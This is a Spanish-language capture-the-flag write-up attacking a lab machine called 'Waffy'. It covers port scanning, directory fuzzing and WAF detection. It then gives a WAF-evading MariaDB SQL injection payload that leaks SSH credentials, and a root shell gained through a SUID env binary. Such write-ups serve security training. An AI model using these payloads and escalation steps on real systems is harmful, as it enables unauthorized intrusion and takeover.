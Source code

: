 ## FASE ENUMERACION

Sabiendo la IP de la máquina víctima vamos a hacer un reconocimiento de los puertos abiertos y los servicios
que corren por ellos, así como sus versiones para ver si tienen alguna vulnerabilidad:

IP-->`172.17.0.2`

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```

![Nmap Scan](images/Waffy/1.png)



```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

-Puerto 22 con SSH en versión no vulnerable 

-Puerto 80 HTTP

Sin credenciales ni usuarios nos vamos a centrar en el puerto 80, vamos a lanzar un whatweb para ver si reporta algo interesante:

```bash
whatweb 172.17.0.2 | tee whatweb
```


![Nmap Scan](images/Waffy/2.png)


Lo más relevante es ese 403, vamos a visitar la página.



![Nmap Scan](images/Waffy/3.png)

Un panel, miramos el código fuente y no vemos nada, vamos a fuzzear

```bash
 feroxbuster --url "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html,zip, ,log,js,cgi,js
```


![Nmap Scan](images/Waffy/4.png)


no encontramos mucho mas salvo que redirecciones, intentamos un ataque con fuerzabruta con hydra y nos reporta falsos positivos, teniendo solo eso,
vamos a intentar una inyeccion sql


![Nmap Scan](images/Waffy/5.png)


Y nos redirecciona


![Nmap Scan](images/Waffy/6.png)


Algo lo ha bloqueado, vamos a ver si hay un waf detrás


```bash
 wafw00f http://172.17.0.2
```


![Nmap Scan](images/Waffy/7.png)



## FASE INTRUSIÓN

efectivamente lo hay, aquí es ir probando inyecciones con diccionarios etc, pero al final, en los fallos salta que es maria db, mirando documentaciones:

```bash
https://mariadb.com/docs/server/reference/sql-functions/special-functions/json-functions/json_valid
```

encuentro esta query:

```
JSON_VALID(value)
```

así que voy a intentar inyectar algo con esta estructra:

```
'OR JSON_VALID(value)- --
```

En valor intento con name, password, nombre, password, pass y por fin:

```
'OR JSON_VALID(id)- --
```


![Nmap Scan](images/Waffy/8.png)

y conseguimos unas credenciales para SSH


![Nmap Scan](images/Waffy/9.png)



Nos conectamos por SSH con las credenciales:

```bash
ssh baluton@172.17.0.2
```

![Nmap Scan](images/Waffy/10.png)



##  FASE ESCALADA PRIVILEGIOS

Vamos a mirar las versiones del kernel por si es vulnerable, si estamos en alfún grupo extraño, si tienemos privilegios suudo y no encontramos nada hasta buscar binarios con permiso SUID:


```
baluton@060d666f2127:~$ uname -a
Linux 060d666f2127 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64 x86_64 x86_64 GNU/Linux
baluton@060d666f2127:~$ id
uid=1000(baluton) gid=1000(baluton) groups=1000(baluton)
baluton@060d666f2127:~$ sudo -l
-bash: sudo: command not found
baluton@060d666f2127:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/env
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
baluton@060d666f2127:~$ 
```


![Nmap Scan](images/Waffy/11.png)


Vemos `/usr/bin/env` , nos vamos a nuestra página de confianza para explotación de binarios y buscamos `env`

```bash
https://gtfobins.github.io/
```



![Nmap Scan](images/Waffy/12.png)


Así pues vamos a explotar la vulnerabilidad:

```bash
/usr/bin/env /bin/bash -p
```

![Nmap Scan](images/Waffy/13.png)






